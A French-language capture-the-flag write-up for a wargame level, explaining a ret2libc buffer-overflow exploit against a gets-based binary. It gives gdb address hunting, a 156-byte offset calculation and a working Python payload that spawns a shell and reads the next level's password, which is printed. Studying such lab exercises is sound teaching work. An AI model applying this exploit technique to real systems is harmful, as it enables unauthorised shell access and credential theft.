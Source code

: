 # Ret2libc Exploitation

En décompilant l'exécutable, on remarque qu'il n'y a aucun appel à la fonction `system`, qui permettrait de lancer un `shell`, et qu'il n'y a aucune lecture du fichier `.pass`. En revanche, on remarque un `buffer` dans la fonction `main` ainsi qu'un `get` copiant directement l'entrée utilisateur en entrée standard dans le `buffer`. Un `buffer` de `32` octets semble trop petit pour accueillir le `shell code` que nous utilisons habituellement. Nénamoins, l'exploit `Ret2libc` semble réalisable.

Pour rappel, l'exploit `Ret2libc` a pour but d'écraser l'adresse de retour de la fonction actuelle (ici `main`) pour la remplacer par l'adresse de `system` avec en argument `/bin/sh`. Nous avons donc besoin de connaître :
- l'adresse de `system`.
- l'adresse de `/bin/sh`.
- l'adresse du `buffer`.
- l'adresse de retour de la fonction `main` (`eip`).

Nous utiliserons `gdb` pour déterminer ces adresses. On peut, au préalable `break` au niveau du `get`. Cela nous permettra d'afficher la `stack` pour déterminer l'adresse du `buffer` ainsi que l'adresse de `eip`.

> Il est important de noter que le programme effectue un `fork` au lancement. Dans `gdb`, il est impératif d'utiliser la command `set follow-fork-mode child` sans quoi il sera impossible de `break` sur une instruction.
```
> gdb level04
[...]
> (gdb) set follow-fork-mode child
> (gdb) disas main
[...]
   0x08048757 <+143>:	lea    0x20(%esp),%eax
   0x0804875b <+147>:	mov    %eax,(%esp)
   0x0804875e <+150>:	call   0x80484b0 <gets@plt>
   0x08048763 <+155>:	jmp    0x804881a <main+338>
   0x08048768 <+160>:	nop
[...]
> (gdb) b *0x08048763
Breakpoint 2 at 0x8048763
> r
[...]
```

---

**Adresse de `system`**
```
> (gdb) p system 
$1 = {<text variable, no debug info>} 0xf7e6aed0 <system>
```
L'adresse de `system` est `0xf7e6aed0`.

**Adresse de `/bin/sh`**
```
> (gdb) find __libc_start_main,+99999999,"/bin/sh"
0xf7f897ec
warning: Unable to access target memory at 0xf7fd3b74, halting search.
1 pattern found.
```
L'adresse de `/bin/sh` est `0xf7f897ec`.

---

On peut ensuite visualiser l'adresse de notre `buffer` ainsi que celle de `eip` en entrant une entrée simple en entrée standard. Nous utiliserons ici la chaîne de caractères `AAAA`. L'adresse du début du `buffer` est située à l'adresse pointée par `esp`. C'est l'argument de la fonction `get`.

```
AAAA
> (gdb) x $esp
0xffffd650:	0xffffd670
```
On peut le visualiser globalement en imprimant la `stack`.
```
> (gdb) x/20wx $esp
0xffffd650:	0xffffd670	0x00000000	0x00000000	0x00000000
                     ^
                     adresse du buffer
0xffffd660:	0x00000b80	0x00000000	0xf7fdc714	0x00000000
0xffffd670:	0x41414141	0x00000000	0x00000000	0x00000000
                     ^
                     AAAA
0xffffd680:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffd690:	0x00000000	0x00000000	0x00000000	0x00000000
```
L'adresse du `buffer` est `0xffffd670`.

L'adresse de `eip` étant stockée à `ebp+0x04`, on peut l'afficher dans `gdb`.

```
> (gdb) x $ebp+0x04
0xffffd70c:	0xf7e45513
> (gdb) x 0xf7e45513
0xf7e45513 <__libc_start_main+243>:	0xe8240489
```

L'adresse de où est stocké `eip` est `0xffffd70c`.

Plus globalement :
```
> (gdb) x/48wx $esp
0xffffd650:	0xffffd670	0x00000000	0x00000000	0x00000000
                     ^
                     adresse du buffer
0xffffd660:	0x00000b80	0x00000000	0xf7fdc714	0x00000000
0xffffd670:	0x41414141	0x00000000	0x00000000	0x00000000
                     ^
                     AAAA
0xffffd680:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffd690:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffd6a0:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffd6b0:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffd6c0:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffd6d0:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffd6e0:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffd6f0:	0xf7feb620	0x00000000	0x00000000	0x00000000
0xffffd700:	0xf7fceff4	0x00000000	0x00000000	0xf7e45513
                                                         ^
                                                         eip
```
Pour connaitre le nombre de caractère necessaires afin d'atteindre `eip`, nous pouvons effectuer ce calcul :
```
nombre_de_caractères = adresse_eip - adresse_buffer
                     = 0xffffd70c - 0xffffd670
                     = 0x9c
                     = 156 (base 10)
```
Il nous faudra donc entrer `156` caractères afin d'atteindre `eip`. Nous pouvons représenter notre entrée de cette manière :
```
[156 caractères] + [adresse_system] + [adresse_retour_system] + [adresse_bin_sh]
```
Concrètement :
```
> python -c 'print "A"*156 + "\xd0\xae\xe6\xf7" + "OSEF" + "\xec\x97\xf8\xf7"' > /tmp/input
> cat /tmp/input - | ./level04
Give me some shellcode, k

whoami
level05
cat /home/users/level05/.pass
3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN
```
